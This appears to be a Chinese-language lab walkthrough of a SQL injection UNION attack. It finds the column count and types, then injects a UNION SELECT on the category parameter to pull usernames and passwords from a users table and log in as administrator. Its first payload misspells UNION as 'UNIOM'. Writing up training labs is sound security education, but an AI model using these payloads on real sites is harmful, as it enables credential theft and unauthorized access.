


# 题意

结合上两次实验的操作实现UNION attack，获取administrator的密码并登录即为成功。注意，题中已经给出了表名users和列名username和password。
# 解题思路
按照上两次实验的步骤，先确定列数再确定数据类型（其实题中已经给出了列数为2并且两列都是string类）。

1.确定列数：
将category的值设为 '+UNIOM+SELECT+NULL--  并增加NULL数量。可以测出列数目为2。


2.确定数据类型：将category的值设为 '+UNION+SELECt+'ab','cd'--可以测出两列都是string类。

3.实施注入：将category的值设为
```
'+UNION+SELECT+username,+password+FROM+users--
```

即可获得如下信息：




按照administrator的密码登录即可。
# 知识点